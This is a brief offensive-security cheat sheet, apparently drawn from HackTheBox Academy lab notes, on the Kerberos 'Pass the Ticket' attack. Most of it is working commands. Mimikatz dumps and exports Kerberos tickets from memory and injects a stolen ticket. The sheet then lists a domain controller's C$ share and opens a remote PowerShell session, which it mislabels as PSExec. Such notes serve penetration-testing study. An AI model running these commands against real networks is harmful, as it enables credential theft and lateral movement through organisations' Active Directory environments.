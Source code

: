 # Pass the Ticket

In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.

## Examples

### Inject a Kerberos ticket into the current session

First, we need to harvest the Kerberos ticket. We can use Mimikatz for this:

```batch
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
```

A few `.kirbi` files will be created in the current directory. These are the Kerberos tickets.

We can use `mimikatz.exe` to inject the ticket into our current session:

```batch
mimikatz.exe "kerberos::ptt [0;4e7ef]-2-0-40e10000-julio@krbtgt-INLANEFREIGHT.HTB.kirbi" "exit"
dir \\DC01.inlanefreight.htb\sharename
dir \\DC01.inlanefreight.htb\c$\Users
```

:::tip Get a remote shell

If we have enough privileges, we can try to use PSExec to get a remote shell:

```powershell
Enter-PSSession -ComputerName DC01.inlanefreight.htb
```

:::

## External Resources

- [HackTheBox Academy](https://academy.hackthebox.com/module/147/section/1639)
